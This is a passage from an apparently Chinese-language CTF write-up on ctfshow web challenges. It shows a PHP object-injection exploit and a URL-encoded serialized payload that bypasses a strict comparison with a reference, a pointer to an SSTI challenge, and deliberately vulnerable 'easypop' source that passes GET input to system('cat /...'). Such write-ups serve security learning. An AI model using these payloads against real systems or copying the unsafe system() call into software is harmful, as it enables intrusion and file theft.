是几个小trick的合集，不难

- `extract()`可以变量覆盖
- `$this->your_answer === $this->name`这样的强比较可以用指针取地址方式绕过

exp

```
$test = new whoami();
$test->your_answer=&$test->name;
echo serialize($test);
```

payload

```
/?s=%E7%BB%99%E6%88%91%E7%9C%8B%E7%9C%8B%21
POST: secret=O%3A6%3A%22whoami%22%3A3%3A%7Bs%3A4%3A%22name%22%3Bs%3A19%3A%22ctfshow%E7%AC%AC%E4%B8%80%E6%B7%B1%E6%83%85%22%3Bs%3A11%3A%22your%5Fanswer%22%3BR%3A2%3Bs%3A7%3A%22useless%22%3Bs%3A8%3A%22I%5Flove%5Fu%22%3B%7D
```

![image-20211111233756111](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211111233756111.png)

## 谁是ctf之王？

> 据说输入框能连起来的

f12可以看到提示/ssti.html

然后没啥可说的，原题，一点都没改，直接看之前的博客->[[DigitalOverdoseCTF 2021]madlib](https://amiaaaz.github.io/2021/10/22/digitaloverdosectf2021-wp/#webmadlib)

![image-20211111235757667](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211111235757667.png)

yysy，看到这个hint我就已经意识到是在考这个题了，果然，没拿上一血可惜了

## easypop

```php
<?php
highlight_file (__FILE__);
error_reporting(0);
class action_1{
    public $tmp;
    public $fun = 'system';
    public function __call($wo,$jia){
        call_user_func($this->fun);
    }
    public function __wakeup(){
        $this->fun = '';
        die("阿祖收手吧，外面有套神");
    }
    public function __toString(){
        return $this->tmp->str;
    }
}

class action_2{
    public $p;
    public $tmp;
    public function getFlag(){
        if (isset($_GET['ctfshow'])) {
            $this->tmp = $_GET['ctfshow'];
        }
        system("cat /".$this->tmp);
    }
```